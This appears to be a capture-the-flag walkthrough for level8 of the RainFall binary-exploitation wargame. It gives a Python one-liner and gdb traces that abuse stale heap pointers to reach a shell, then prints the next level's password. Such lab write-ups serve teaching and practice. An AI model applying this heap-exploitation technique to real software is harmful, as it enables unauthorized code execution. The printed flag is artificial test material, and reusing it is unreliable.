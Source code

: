 # Walkthrough

## Solution

```
(python -c "print ('auth '); print ('reset'); print('service0123456789012345'); print('login')"; cat) | ./level8
(nil), (nil) 
0x804a008, (nil) 
0x804a008, (nil) 
0x804a008, 0x804a018 
whoami
level9
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## Explanation

### Execution

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
hello
(nil), (nil) 
bonjour
(nil), (nil) 
^C
level8@RainFall:~$ ./level8 hello world
(nil), (nil) 
bon
(nil), (nil) 
^C
```
-> The programs prints "nil" twice and then waits for input in a loop.

### Disassembly

```
info var
0x08049aac  auth
0x08049ab0  service

info functions
0x08048540  frame_dummy
0x08048564  main
```
You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  


### Steps

```
(gdb) run
Starting program: /home/user/level8/level8 
(nil), (nil) 
> "auth " (ctrl+d and not enter, so that we don't have the \n in the input)
Breakpoint 1, 0x080486b5 in main ()
1: x/3i $pc
=> 0x80486b5 <main+337>:	lea    0x20(%esp),%eax
   0x80486b9 <main+341>:	mov    %eax,%edx
   0x80486bb <main+343>:	mov    $0x804882d,%eax
(gdb) c
Continuing.
0x804a008, (nil) 
> reset (ctrl+d and not enter, so that we don't have the \n in the input)
Breakpoint 1, 0x080486b5 in main ()
1: x/3i $pc
=> 0x80486b5 <main+337>:	lea    0x20(%esp),%eax
   0x80486b9 <main+341>:	mov    %eax,%edx
   0x80486bb <main+343>:	mov    $0x804882d,%eax
(gdb) c
Continuing.
0x804a008, (nil) 
serviceAAAAAAAAAAAAAAAAA (17 * 'A')
Breakpoint 1, 0x080486b5 in main ()
1: x/3i $pc
=> 0x80486b5 <main+337>:	lea    0x20(%esp),%eax
   0x80486b9 <main+341>:	mov    %eax,%edx
   0x80486bb <main+343>:	mov    $0x804882d,%eax
(gdb) c
Continuing.
0x804a008, 0x804a018 
login
Breakpoint 1, 0x080486b5 in main ()
1: x/3i $pc
=> 0x80486b5 <main+337>:	lea    0x20(%esp),%eax
   0x80486b9 <main+341>:	mov    %eax,%edx
   0x80486bb <main+343>:	mov    $0x804882d,%eax
(gdb) i var auth
All variables matching regular expression "auth":

Non-debugging symbols:
0x08049aac  auth
0xb7fd4314  _null_auth
0xb7fd4a90  svcauthdes_stats
(gdb) x/2wx 0x08049aac
0x8049aac <auth>:	0x0804a008	0x0804a018
(gdb) x/16wx 0x0804a008
0x804a008:	0x00000000	0x00000000	0x00000000	0x00000019
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x00000041	0x00020fd9	0x00000000	0x00000000       // 0x804a028 is not at 0 anymore, so we can launch the shell
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.
$ pwd
/home/user/level8
```

- Final Command

(python -c "print ('auth '); print ('reset'); print('service0123456789012345'); print('login')"; cat) | ./level8